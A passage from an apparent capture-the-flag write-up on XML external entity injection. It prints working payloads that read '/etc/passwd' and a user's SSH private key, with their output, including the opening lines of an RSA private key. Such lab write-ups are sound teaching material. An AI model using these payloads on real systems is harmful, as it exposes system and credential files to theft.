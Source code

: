 **Payload**

```markup
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

```http
root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/us
r/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:
/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:
5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache
/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nolog
inmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/va
r/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:
/usr/sbin/nologinproxy:x:13:13:proxy:/bin:/usr/sbin/nologinwww-d
ata:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:ba
ckup:/var/backups:/usr/sbin/nologinlist:x:38:38:MailingListManag
er:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/var/run/ircd:/us
r/sbin/nologingnats:x:41:41:GnatsBug-ReportingSystem(admin):/var
/lib/gnats:/usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexis
tent:/usr/sbin/nologinsystemd-network:x:100:102:systemdNetworkMa
nagement,,,:/run/systemd/netif:/usr/sbin/nologinsystemd-resolve:
x:101:103:systemdResolver,,,:/run/systemd/resolve:/usr/sbin/nolo
ginsyslog:x:102:106::/home/syslog:/usr/sbin/nologinmessagebus:x:
103:107::/nonexistent:/usr/sbin/nologin_apt:x:104:65534::/nonexi
stent:/usr/sbin/nologinlxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologindnsmasq:x:107:65534
:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologinlandscape:x:108:112::
/var/lib/landscape:/usr/sbin/nologinsshd:x:109:65534::/run/sshd:
/usr/sbin/nologinpollinate:x:110:1::/var/cache/pollinate:/bin/fa
lsefalcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash
```

Flag: `falcon`

_**\#4 Where is falcon's SSH key located?**_

We first need to know where the SSH key is stored on a Linux machine. After some googling, I found the exact location and file in which this key is stored and that is `/home/<username>/.ssh/id_rsa`

Flag: `/home/falcon/.ssh/id_rsa`

_**\#5 What are the first 18 characters for falcon's private key**_

**Payload**

```bash
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>
```

```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEA7bq7Uj0ZQzFiWzKc81OibYfCGhA24RYmcterVvRvdxw0IVSC
lZ9oM4LiwzqRIEbed7/hAA0wu6Tlyy+oLHZn2i3pLur07pxb0bfYkr7r5DaKpRPB
2Echy67MiXAQu/xgHd1e7tST18B+Ubnwo4YZNxQa+vhHRx4G5NLRL8sT+Vj9atKN
MfJmbzClgOKpTNgBaAkzY5ueWww9g0CkCldOBCM38nkEwLJAzCKtaHSreXFNN2hQ
IGfizQYRDWH1EyDbaPmvZmy0lEELfMR18wjYF1VBTAl8PNCcqVVDaKaIrbnshQpO
HoqIKrf3wLn4rnU9873C3JKzX1aDP6q+P+9BlwIDAQABAoIBABnNP5GAciJ51KwD
RUeflyx+JJIBmoM5jTi/sagBZauu0vWfH4EvyPZ2SThZPfEb3/9tQvVneReUoSA5
bu5Md58Vho6CD81qCQktBAOBV0bwqIGcMFjR95gMw8RS9m4AyUnUgf438kfja5Jh
NP36ivgQZZFBqzLLzoG9Y9jlGKjiSyMvW4u63ZacCKPTpp5P53794/UVU7JiM03y
OvavZ2QveJp5BndV5lOkcIEFwFRACDK1xwzDRzx/TNJLufztb2EheMc3stNuOMea
TLKlbG0Mp/c2az8vNN6HA0QiwxYlKZ58RfdsOfbsFxAltYNnzxy9UEieXtrWVg7X
Qfi/ZeECgYEA/pfgg6BClEmipXv8hVkLWe7VwlFf4RXnxfWyi6OqC/3Yt9Q9B4Ya
6bgLzk2vPNHgJt+g2yh/TzMX6sCC9IMYedc0faiJr/VISBm25qTjqIGctwt0D3nb
```
